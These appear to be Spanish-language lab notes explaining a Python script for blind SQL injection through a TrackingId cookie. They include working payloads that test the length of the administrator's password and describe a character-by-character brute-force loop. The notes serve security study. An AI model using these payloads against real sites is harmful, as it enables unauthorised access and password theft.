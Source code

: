 ``from pwn import *`` --> Importar el paquete pwn instalado con pip3 para jugar con barras de progreso

``import requests, signal, time, pdb, sys, string`` --> Librerías internas de python por si nos hace falta

`signal.signal(signal.SIGINT, def_handler)` --> Cuando hagamos Ctrl + C vamos a llevar el flujo del programa a la función definida **def_handler**

`def def_handler(sig, frame):` --> Creamos la función y le pasamos estos dos valores, si no los pone no va a funcionar

``sys.exit(1)`` --> Cierre el programa con un código de estado **no exitoso**

`ìf __name__ == '__main__':` --> Por donde comenzaría el flujo inicar del programa

``def makeRequest():`` --> Esta función se va a encargar de aplicar toda la inyección para que a ciegas nos dumpe lo que queramos

``main_url=""`` --> Variable donde vamos a almacenar la dirreción de la página

La biblioteca string contiene funciones que nos devuelve ciertas palabras o números... Por ejemplo si entramos en modo interactivo de python poniendo python3, importamos string (import string) y ponemos **dir(string)** podemos ver todos los métodos que podemos usar, por ejemplo **string.printable** contiene todo
![[Pasted image 20230129223523.png]]

En nuestro caso no nos hace falta ni caracteres en mayúsculas ni caracteres especiales así que vamos a utilizar del 0-9 y de la a-z y esto lo pondríamos así:
``string.ascii_lowercase + string.digits``

### Ver la longitud de la contraseña
Podemos utilizar está query
````sql
Cookie: TrackingId=L5c39ozU6bKSYZCk' and (select 'a' from users where username='administrator' AND length(password)>5)='a;
````

Si las condiciones se cumplen quedaría un a=a **daría true** y entonces mostraría el mensaje, en caso de que no se cumplieran sería false y no lo mostraría

Cuando pongamos mayor que un número y creemos que es ese ponemos **>=**
````sql
Cookie: TrackingId=L5c39ozU6bKSYZCk' and (select 'a' from users where username='administrator' AND length(password)>=20)='a; session=rYYg2NktXiLDh0RBFAU94GULoDTtEZu
````

Y está es la forma de verificar la longitud de la contraseña, también podemos scriptearlo en python, una vez resulto esto volvemos a nuestro script de python

``for position in range(1, 21):`` --> Estamos indicando que vaya del **1 al 20**, al 21 no llega. Este es el encargado de ir carácter por carácter

``for character in characters`` --> Itera los valores introducidos hasta que de con la correcta

``cookies = {...}`` --> Cookie que vamos a ir manipulando tras cada iteración
Modificamos agregandole las comillas dobles y simples, quitando los iguales, para que cumpla un formato

